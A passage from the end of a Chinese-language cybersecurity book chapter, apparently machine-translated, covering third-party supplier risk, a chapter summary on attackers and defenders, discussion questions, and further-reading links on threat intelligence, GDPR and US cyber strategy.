*   **第三方供应商安全风险**:在互连业务的世界中，组织必须让其他组织存储和使用他们的信息，以实现更好的业务运营，然而这也可能导致更大的风险。如果第三方受到威胁，组织将面临丢失业务数据的风险。大多数供应链攻击使用复杂的攻击媒介，设法绕过现有的安全系统。

# 摘要

在了解了当前的威胁形势、防御者视角、现场攻击模拟以及安全失败的根本原因之后，很明显，对于数据泄露和其他高级针对性攻击来说，没有什么灵丹妙药。随着技术和业务流程的变化，对手正在改变他们的武器和战术，与此同时，防御方也在积极探索各种安全工具。同样清楚的是，攻击者不需要很老练就能执行复杂的数据破坏；他们只能是机会主义者。有了开源工具和免费的在线侦察平台，威胁参与者能够发现资产及其相应的漏洞。

在下一章，你将了解一些部署网络安全系统的有效方法。

# 问题

网络空间的世界总是为企业和组织的真实风险、实现更好的防御策略以及安全可能出错的情况等问题留出空间。一些被广泛询问的问题如下:

1.  你如何让一个组织不断更新对手在网络空间的能力？
2.  如何准备有效的网络威胁情报？
3.  我们如何适应新兴的网络安全技术？

# 进一步阅读

请考虑以下链接，以便进一步阅读:

*   请访问[https://CCD Coe . org/sites/default/files/multimedia/pdf/Insider _ Threat _ Study _ CCD Coe . pdf 了解有关威胁特征和能力的更多信息](https://ccdcoe.org/sites/default/files/multimedia/pdf/Insider_Threat_Study_CCDCOE.pdf)
*   2018 年欧盟 GDPR 在 https://www.eugdpr.org/key-changes.html.[举行](https://www.eugdpr.org/key-changes.html)
*   美国国防部网络任务部队计划，https://www . defense . gov/News/Special-Reports/0415 _ Cyber-Strategy/。